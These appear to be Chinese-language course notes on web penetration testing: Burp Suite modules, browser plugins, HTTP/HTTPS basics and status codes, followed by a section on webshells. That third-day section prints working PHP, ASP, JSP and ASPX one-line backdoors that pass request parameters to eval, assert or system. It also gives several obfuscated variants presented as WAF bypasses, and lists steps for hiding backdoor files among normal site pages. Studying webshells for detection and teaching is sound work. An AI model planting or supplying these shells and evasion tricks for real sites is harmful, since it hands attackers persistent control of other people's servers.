# 第五周

## 第一天

### 1. Burp软件

#### (1)介绍

* Web 应用安全测试工具，帮助用户在渗透测试过程中进行全面的分析和检测

#### (2)模块

##### a. target

* 管理和组织测试项目

###### ①Site Map

* 按**目录结构**列出已发现的所有**端点和页面**

###### ②Scope

* **定义测试的范围**，可以指定测试主机和路径

###### ③Issue Definitions

* 列出已知的安全问题类型

##### b. proxy

* 拦截和修改HTTP/HTTPS流量

###### ①Intercept

* **实时拦截**请求和响应

###### ②HTTP History

* 记录所有通过代理的请求和响应

###### ③Proxy Setting

* 设置代理行为，例如**监听端口、拦截规则**等

##### c.Intruder

* 自动化、定制化地攻击Web应用程序

###### ①position

* 选择哪部分请求**应被替换或测试**

###### ②payload

* 配置**攻击方式**

###### ③setting

* 控制攻击行为，例如线程数、请求速率等

##### d.Repeater

* 手动修改和重放HTTP请求，便于测试不同的输入

* 可以**反复发送修改后的请求**，并查看相应的测试，以便测试出漏洞

### 2. 浏览器插件的安装

#### (1). Wappalyzer

##### a. 作用

* **识别和分析**网站使用的各种技术堆栈

##### a. 作用

* **更改和管理**浏览器的 User-Agent 字符串

##### b. 用途

* 使得浏览器在访问网页时可以**伪装**成其他类型的**设备或浏览器**，绕过网站限制

#### (3).HTTP Header Live

##### a. 作用

* **实时查看和监控** HTTP 请求和响应的头部信息

##### b. 用途

* 帮助用户实时查看和分析 HTTP 请求和响应头部信息，为网站开发、**网络诊断**、**安全审查**等提供重要支持

#### (4). HackBar

##### a. 作用

* 用于**手动测试 Web 应用程序的安全性**

##### b. 用途

* 提供了**快速执行**常见安全测试操作的能力，如注入测试、加密解密、请求头修改等，非常适合手动进行 **Web 渗透测试和漏洞挖掘**。

#### (5). Server IP

##### a. 作用

* 显示当前访问网站的**服务器 IP 地址**

##### b. 用途

* 显示服务器 IP 地址
* 网络调试分析
* 识别负载均衡

#### (6). Proxy SwitchyOmega

##### a. 作用

* **管理和切换代理服务器设置**，帮助用户在多个代理配置之间快速切换

##### b. 用途

* 适合开发人员、网络管理员、渗透测试人员等需要**定制化网络设置**的用户

## 第二天

### 1. HTTP协议

#### (1). 概述

##### a. 概念

* 是客户端浏览器或**其他程序与Web服务器**之间的**应用层通信协议**

##### b. 使用协议及端口

* TCP协议、80端口

##### c. 其他应用

* 可用于传输图像、声音、动画、视频等

#### (2). 工作模式



#### (3). URL

##### a. 概念

* 统一资源定位符(Uniform Resource Locator)，用来表示某一处资源的地址

##### b. 格式



##### c. 字段

1. 协议
2. 地址
3. 端口
4. 目录
5. 文件
6. 参数
7. 锚点
   * 告诉浏览器，当加载某一个页面时，直接跳转到该页面某一id、class等标识元素的位置。

#### (4). 协议特点

##### a. 支持C/S模式

##### b. 简单快速

* 只需传送**请求方法和路径**
* HTTP服务器的**程序规模小**，**通信速度快**

##### c. 灵活

* 允许传输**任意类型**的数据对象，有Content-Type字段指定

##### d. 无状态

* 指协议对于事务处理**没有记忆能力**，如果后续处理需要前面信息，**必须重传**，导致了传送的**数据量增大**

#### (5). HTTP报文

##### a. 概述

* 分为请求报文(Request)与响应报文(Response)

##### b. 字段

###### ①Host

* 指示发出请求或响应的主机名

###### ②User-Agent

* 通常格式：Mozillia/5.0(平台) 引擎版本 浏览器版本号

###### ③Accept

* 分为文件类型和内容类型(MIME或媒体类型)



###### ④Accept-Language

* 客户端浏览器的语言

###### ⑤Accept-Endocding

* 客户端浏览器支持的文件压缩格式

###### ⑥Connection

* 指示是否保持连接

###### ⑦Refer&&Cookie

* 指示请求或响应来自哪里

###### c. 请求方法



#### (6)状态码

##### a. 1xx

* 指示信息--表示请求已接收，继续处理

##### b. 2xx

* 成功--表示请求已被成功接收、理解、接受

| 状态码               | 描述                                         |
| -------------------- | -------------------------------------------- |
| 200  OK              | 请求成功，服务器已返回请求的资源             |
| 201  Created         | 请求成功，并且服务器已创建了新的资源         |
| 202  Accepted        | 请求**已接受**，但尚未处理完成               |
| 204  No Content      | 请求成功，但没有返回内容                     |
| 206  Partial Content | 服务器成功处理了部分请求（例如，在分块下载时 |


##### c. 3xx

* 重定向--要完成请求必须**进行更进一步的操作**

| 状态码                  | 描述                                      |
| ----------------------- | ----------------------------------------- |
| 301  Moved Permanently  | 请求的资源已**永久移动**到新的URL         |
| 302  Found              | 请求的资源**临时移动**到新的URL           |
| 304  Not Modified       | **资源未修改**，客户端可以使用缓存的版本  |
| 307  Temporary Redirect | **临时重定向**，请求资源暂时位于另一个URL |

##### d. 4xx

* 客户端错误--请求有**语法错误**或请求**无法实现**

| 错误码                  | 描述                               |
| ----------------------- | ---------------------------------- |
| 400  Bad Request        | 客户端请求的**语法错误**           |
| 401  Unauthorized       | 请求需要**身份验证**               |
| 403  Forbidden          | 服务器**拒绝执行**请求             |
| 404  Not Found          | 请求的**资源**在服务器上**找不到** |
| 405  Method Not Allowed | 请求方法**不被**服务器**允许**     |

##### e. 5xx

* 服务器错误

| 状态码                    | 描述                                                       |
| ------------------------- | ---------------------------------------------------------- |
| 500 Internal Server Error | 服务器内**部错误**，无法完成请求。                         |
| 501 Not Implemented       | 服务器**不支持**请求的方法。                               |
| 502 Bad Gateway           | 服务器作为网关或代理，从上游服务器收到**无效响应**         |
| 503 Service Unavailable   | 服务器**暂时不可用**，由于超载或系统维护                   |
| 504 Gateway Timeout       | 服务器作为网关或代理，**未能及时**从上游服务器**接收响应** |

##### f. 常见状态码



### 2. HTTPS协议

#### (1)概述

##### a. SSL

* 安全套接字层(Secure Socket Layer)，位于**TCP/IP协议与各种应用层协议之间**，为数据通信提供**安全支持**

##### b. TLS

* 传输层安全(Transport Layer Security)，前身是SSL

#### (2)通信流程

1. 客户端和服务器端通过**TCP建立连接**，并发送htpps请求
2. 服务端响应，并**发送数字证书**给客户端(包括域名、公钥以及申请证书公司)
3. 客户端收到数字证书后，进行**合法性验证**
4. 验证通过后，客户端**生成**一个用于**对称加密的密钥**，并使用服务器**公钥对客户端密钥进行非对称加密**
5. 客户端将该**加密后的密钥发送**给服务端
6. 服务端收到后使用私钥进行非对称解密，得到客户端密钥后再将数据进行**对称加密生成密文并发送**
7. 客户端收到密文，并使用客户端密钥进行解密

### 3. HTTP与HTTPS区别



### 4. Yakit软件

## 第三天

### 1. WebShell

#### (1). 概述

##### 	a. 介绍

* 以**asp、php、jsp或者cgi**等网页文件形式存在的一种**命令执行环境**，也叫**网页后门**；(是一种通过**web漏洞或后门**获取**web服务器控制权**的脚本程序)
* 可以利用webshell达到**长期控制网站服务器**的目的，并获得**执行操作权**

##### 	b. 分类

* 小马
* 大马
* 一句话木马
* 内存马
* 拖库马、打包马等

##### c. 绕过WAF常见方法

###### ①绕过正则

###### ②同义替换

###### ③拆分参数

###### ④更换数据源

##### d. 一句话木马

###### ①php

```php
<?php @assert($_POST['cmd']);?>
```

###### ②asp

```asp
<%eval request("cmd")%>
<%execute request("cmd")%>
<%execute(request("cmd"))%>
<%executeGlobal request("cmd")%>
<%eval(Request(chr(35)))%> #ASCII码值
```

###### ③jsp

```jsp
<% @page language="java"
    Runtime.getRuntime().exec(request.getParameter("cmd"));
%>
```

###### ④aspx

```aspx
<%@ Page Language="Jscript"%><%eval(Request.Item["pass"],"unsafe");%>
<%@ Page Language="Jscript" validateRequest="false" %><%Response.Write(eval(Request.Item["pass"], "unsafe"));%>
```

#### (2). 执行

#####  a. 原理

* 利用超全局变量**接受传递的数据**，并将该数据传递给**代码执行函数**进行执行

#####  b. 步骤

1. 入侵网站 
2. 将ASP或PHP等后门文件混入正常网页文件 
3. 通过网页访问后门文件
4. 得到命令执行环境
5. 控制网站服务器

##### c. 相关函数

###### ①PHP执行函数

**eval()、assert()、preg_replace()、create_function()、array_map**、asort、call_user_func()、call_user_func_array()、**array_filter()**

###### ②命令执行函数

**system()、exec()**、popen()、passthru()、**shell_exec()**

##### d. 常用执行函数

###### ①eval()

* 将字符串按照**PHP代码**来执行，该字符串必须是**合法的PHP代码**，且必须以**分号结尾**

* ```php
  <?php
  // ?a=phpinfo();
  @eval($_GET['a']);
  ?>
  ```

  

###### ②assert()

* **与eval()类似**，将字符串当做**PHP代码**来执行

* ```php
  <?php
  // ?b=phpinfo();
  @assert($_GET['b']);
  ?>
  ```

  

###### ③preg_replace()

* 执行正则表达式的搜索和替换，可使用**修饰符/e**，使该函数**将replacement参数当做PHP代码**

* ```php
  <?php
  // ?c=phpinfo();
  @preg_replace("/abc/e",$_REQUEST['c'],"abc");
  ?>
  ```

  

###### ④create_function()

```php
<?php
// ?d=phpinfo();
$func = create_function("",$_REQUEST['d']);
$func();
?>
```


###### ⑤array_map()

* 将**用户自定义函数**作用于数组的每个值上，并**返回**用户自定义函数作用后的带有新值的数组，起到绕过作用

* ```php
  <?php
  // ?e=system&cmd=whoami&ip=ipconfig
  $func1 = $_REQUEST['e'];
  $cmd = $_REQUEST['cmd'];
  $ip = $_REQUEST['ip'];
  $array[0] = $cmd;
  $array[1] = $ip;
  $new_array = array_map($func1,$array);
  ?>
  ```

  

###### ⑥array_filter()

* 依次将array数组中的每个值传递到**回调函数**，如果返回true，则array数组的当前值会被**包含在返回的结果数组**中

* ```php
  <?php
  //?f=system&who=whoami
  $who = $_REQUEST['who'];
  $array1 = array($who);
  $func2 = $_REQUEST['f'];
  @array_filter($array1,$func2);
  ?>
  ```



#### (3)管理工具

##### a.中国菜刀

##### b.C刀

##### *c.蚁剑*

##### d.哥斯拉

##### e.冰蝎

#### (4)变形

##### a. str_replace

###### ①关键字查找

```php
<?php
$a = str_replace("abc","","aabcsabcsabceabcrabct");
@$a($_REQUEST['cmd']);
?>
```


###### ②关键字替换

```php
<?php
$b = "assexx";
$c = str_replace("xx","rt",$b);
@[""=>$c($_GET[_])];
?>
```



##### b.  base64_decode()

* 编码替换

```php
<?php
$a = base64_decode("YXNzZXJ0");
$a($_REQUEST['cmd']);
?>
```



##### c. .操作符

```php
<?php
$a = "as"."se";
$b = "r"."t";
$c = $a.$b;
$c($_REQUEST['cmd']);
?>
```



##### d. 更换数据源

###### ①隐藏assert

```php
<?php
//？a=assert&cmd=phpinfo();
$_REQUEST[a]($_REQUEST['cmd']);
?>
```



###### ②嵌套$_REQUEST

```php
<?php
//?b=cmd&cmd=phpinfo();
@assert($_REQUEST[$_REQUEST['b']]);
?>
```



##### e. 替代<.??>标签

```php
<script language="php">
    @assert($_REQUEST['cmd']);
</script>
```


##### f. 字符串组合法

```php
<?php
$str = 'abcsqebrt';
$a = $str[0].$str[3].$str[3].$str[5].$str[7].$str[8];
@$a($_REQUEST['cmd']);
?>
```



##### g. 自定义

###### ①自定义函数

```php
<?php
function admin($a){
    @eval($a);
}
admin($_REQUEST['admin']);
?>
```



###### ②自定义类

```php
<?php
class Webshell{
    function admin($a){
        @eval($a);
    }
}
$web = new Webshell();
$web->admin($_REQUEST['admin']);
?>
```



###### ③魔术方法

* __construct
* __destruct()
* __wakeup()
* __toString()
* ...

```php
//?name=phpinfo();
class Student{
    public $xw = null;
    public $xl = null;
    function __construct(){
        $this->xw = "riny(\$_ERDHRFG['anzr'])";   //对应eval($_REQUEST['name]);,需要对$进行转义
        $this->xl = str_rot13($this->xw);
        @assert($this->xl);
    }
}
new Student();
```



###### ④创建匿名方法

```php
<?php
$func1 = create_function('$a,$b','return ($a + $b);');
echo $func1(10,20);
?>
```



##### k. 异或运算

* 通过异或运算ASCII值，来绕过WAF